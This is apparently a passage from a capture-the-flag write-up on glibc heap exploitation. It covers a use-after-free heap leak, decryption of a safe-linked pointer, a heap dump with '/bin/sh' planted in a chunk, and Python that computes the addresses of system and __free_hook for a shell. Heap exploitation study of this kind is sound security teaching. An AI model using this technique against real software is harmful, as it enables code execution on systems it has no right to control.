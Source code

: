 as we said earlier index 0 and index 3 in the heap array have the same pointer so by showing the index 0 chunk we get a heap leak (we can't do the same by showing index 3 because index 3 have been nulled in the heap array).
finally we have to decrypt the pointer that we leaked using the ``decrypt()`` function to regain the original pointer and calculate the heap base.
output:
```
b'Data:\n'
0x5620321ce410
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall_patched', '61258']
[DEBUG] Created script for new terminal:
    #!/usr/bin/python3
    import os
    os.execve('/usr/bin/gdb', ['/usr/bin/gdb', '-q', './chall_patched', '61258'], os.environ)
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/tmp/tmpxoowqif3']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
What do you want to do...
1 . Alloc a bloc
2 . Free a bloc
3 . Edit a bloc
4 . Show a bloc
5 - Freeze a bloc
Choice?
$  
```

Heap state : 
```
0x5620321ce6a0: 0x0000000000000000      0x0000000000000031
0x5620321ce6b0: 0x00005625501fc72e      0x00005620321ce010 //encryped pointer.
0x5620321ce6c0: 0x00005620321ce6a0      0x00005620321ce6a0
0x5620321ce6d0: 0x0000000000000000      0x0000000000000031
0x5620321ce6e0: 0x00000005620321ce      0x00005620321ce010
0x5620321ce6f0: 0x0000000000000000      0x0000000000000000
0x5620321ce700: 0x0000000000000000      0x0000000000000021
0x5620321ce710: 0x0068732f6e69622f      0x00007fc87b900c00
0x5620321ce720: 0x0000000000000000      0x00000000000003b1
0x5620321ce730: 0x00007fc87b900c00      0x00007fc87b900c00
0x5620321ce740: 0x0000000000000000      0x0000000000000000
0x5620321ce750: 0x0000000000000000      0x0000000000000000
0x5620321ce760: 0x0000000000000000      0x0000000000000000
0x5620321ce770: 0x0000000000000000      0x0000000000000000
0x5620321ce780: 0x0000000000000000      0x0000000000000000
.........................................................
.........................................................
0x5620321cead0: 0x00000000000003b0      0x0000000000000020
0x5620321ceae0: 0x0042424242424242      0x0000000000000000
0x5620321ceaf0: 0x0000000000000000      0x0000000000000441
.........................................................
```

calculating necessary addresses
```python
      system = libc_base + libc.sym.system
      hook = libc_base + libc.sym.__free_hook
```
